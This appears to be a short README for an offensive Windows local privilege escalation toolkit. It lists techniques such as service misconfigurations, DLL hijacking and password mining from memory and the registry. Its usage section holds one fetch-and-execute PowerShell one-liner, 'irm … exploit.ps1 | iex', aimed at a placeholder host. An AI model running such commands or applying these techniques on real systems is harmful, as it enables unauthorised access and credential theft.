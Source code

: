 
# Windows Local Privilege Escalation

This tools is developed by LLM, tested and refined by "d3hack"

Primary focused to escalate privileges: 

    - DLL Hijacking

    - Service binPath
    
    - Service UnquotedPathSvc
    
    - Service Registry
    
    - Service ExecFile

    - Registry Autorun
    
    - Registry AlwaysInstallelevated 

    - TrustedInstaller
    
    - Password Mining (Memory/Registry/Config File)

    - Scheduled Task
    
    - Startup Application

## Authors

- [d3hack @ LinkedIn ](https://linkedin.com/in/aghayev2a)

- [d3hvck @ Github  ](https://github.com/d3hvck)

## Usage

For extremely accuracy please run every scripts one by one 

```bash
  irm https://githubrawfilelink.com/blablabla/exploit.ps1 | iex 
```

